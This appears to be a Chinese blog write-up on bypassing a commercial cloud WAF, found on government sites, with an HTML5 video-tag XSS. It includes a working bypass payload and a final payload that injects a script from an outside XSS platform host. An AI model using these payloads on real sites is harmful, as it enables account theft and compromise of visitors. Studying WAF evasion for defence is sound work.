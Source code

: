 ```yaml
---
title: XSS bypass 安恒玄武盾
abbrlink: 34838
date: 2019-06-10 17:42:05
categories: WEB
tags:
- XSS
---
```


## 起因

这个方法是去年实验室里的小伙伴发现的，而payload构造思路则来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>).

主要是实验室有任务寻找省内政府网站漏洞,而浙江政府又与安恒有不少合作,很多网上都挂着安恒的玄武盾云WAF.

绕云waf简单的方式就是绕过cdn,找真实ip.绕cdn方法还是很多了,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

漏洞已报告给安恒,但超过两个月没得到回复,那就当做厂商不承认该漏洞.

## 细节

### 测试

最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="\u006aava\u0073cript:[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

最晚在今年4月份测试依旧有效.

玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.

html5标签还挺多,如果找不到可以用我收集的[字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

最容易容易构造xss的标签有`video`,html5标签实现xss网上相关文章有不少.

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[字段在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`,可以不需要额外的交互,打开网站即可触发.当视频加载时触发.

记得把video标签加上hidden属性.不然动静太大了.

当然不仅仅`video`标签的`onloadedmetadata`事件可用,随便组合一下就有很多其他的方法.

### 2

虽然绕过了关键字检测,但是如果直接用`javascript=alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

最终事件内payload为:

`find(\u0061lert)`

### 执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.